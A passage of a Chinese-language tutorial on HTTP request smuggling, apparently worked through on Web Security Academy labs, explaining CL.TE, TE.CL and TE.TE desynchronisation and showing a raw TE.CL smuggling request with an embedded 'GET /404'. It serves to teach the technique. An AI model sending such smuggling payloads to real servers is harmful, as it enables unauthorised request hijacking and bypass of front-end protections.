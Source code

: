 前端服务器为CL处理 ，认为整段内容均为一个报文内容，后端处理为TE，后端认为绿色为报文结束位置，蓝色部分放入缓存区等待下个报文到达
![tNumF0.png](https://s1.ax1x.com/2020/06/02/tNumF0.png)

使用差异响应确认CL.TE漏洞。

第一次请求到0结束，剩余部分放入缓冲区
![tNuuWT.png](https://s1.ax1x.com/2020/06/02/tNuuWT.png)

第二次，读取剩余部分 和 新来的请求，先读取剩余部分，是一个请求然后响应
![tNunYV.png](https://s1.ax1x.com/2020/06/02/tNunYV.png)



## ② TE - CL 漏洞

前端代理服务器处理Transfer-Encoding这一请求头，而后端服务器处理Content-Length请求头。
```
POST / HTTP/1.1
Host: ac4b1f891fa1531d80516da400ca002c.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=zlXgB84FuqKwXqWVOecIiUmKcWJRRQxj
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Content-length: 4
Transfer-Encoding: chunked

13
GET /404 HTTP/1.1

0


```
0后面有两个 \r\n
前端认为TE有效，红色与绿色都是有效部分，然后发往后端，
后端认为CL有效 ，红色为CL控制部分， 因此后端只处理了红色部分，绿色部分存在缓冲区内等待下一个请求到来

![ttgum4.png](https://s1.ax1x.com/2020/06/02/ttgum4.png)

效果如下，通过差异响应确认TE.CL漏洞
![ttcxl8.png](https://s1.ax1x.com/2020/06/02/ttcxl8.png)

![ttcvSf.png](https://s1.ax1x.com/2020/06/02/ttcvSf.png)

## ③ TE - TE

前后端服务器都处理Transfer-Encoding请求头，通过对发送的请求包中的Transfer-Encoding进行某种混淆操作，从而使其中一个服务器不处理Transfer-Encoding请求头，这样就变成了TE-CL 或者 CL-TE
